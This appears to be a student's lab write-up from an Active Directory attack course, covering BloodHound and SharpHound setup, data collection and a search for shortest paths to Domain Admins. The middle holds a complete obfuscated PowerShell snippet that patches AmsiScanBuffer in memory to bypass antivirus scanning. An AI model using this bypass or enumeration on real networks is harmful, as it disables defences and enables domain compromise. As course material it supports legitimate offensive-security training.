 # 🐩 BloodHound, Identify Paths

I start by unziping the file C:\AD\Tools\neo4j-community-4.1.1- windows.zip

then i started the neo4j server like this:

```
.\neo4j.bat install-service
.\neo4j.bat start
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I get on this page with simple password neo4j:neo4j

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now i launch bloodhound via the following path (C:\AD\Tools\BloodHound-win32-x64\BloodHound-win32-x64) and enter the credentials that i set&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

I then open my terminal and using invisishell and do the following

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
cd C:\AD\Tools\BloodHound-master\BloodHound-master\Collectors
```

Then i'm going to copy and paste this code snip in my terminal to bypass .NET AMSI before running SharpHound.ps1:

<pre><code><strong>$ZQCUW = @"
</strong>using System;
using System.Runtime.InteropServices;
public class ZQCUW {
 [DllImport("kernel32")]
 public static extern IntPtr GetProcAddress(IntPtr hModule, string
procName);
 [DllImport("kernel32")]
 public static extern IntPtr LoadLibrary(string name);
 [DllImport("kernel32")]
 public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr
dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ =
[ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#x26;#97;&#x26;#109;&#x26;#115;&#x26;#105;&#x26;#46;&#x26;#100;&#x26;#108;&#x26;#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ,
"$([systeM.neT.webUtility]::HtMldECoDE('&#x26;#65;&#x26;#109;&#x26;#115;&#x26;#105;&#x26;#83;&#x26;#99;&#x26;#97;&#x26;#110;&#x26;#66;&#x26;#117;&#x26;#102;&#x26;#102;&#x26;#101;&#x26;#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
</code></pre>

Then we can simply run sharphound

```
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can upload the JSON files to get a visual render with the GUI.&#x20;

I can look for myself:

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

In Node Info, scroll down to 'LOCAL ADMIN RIGHTS' and expand 'Derivative Local Admin Rights' to find if student613 has derivate local admin rights on any machine!

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Theres an issue with GUI so this screenshot is from course content</p></figcaption></figure>

To complete the task we go on the Web UI of bloodhound provided by the course, login with the creds and follow with this methodology:

n the Web UI, click on Cypher -> Click on the Folder Icon -> Pre-Built Searches -> Active Directory -> (Scroll down) -> Shortest paths to Domain Admins

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

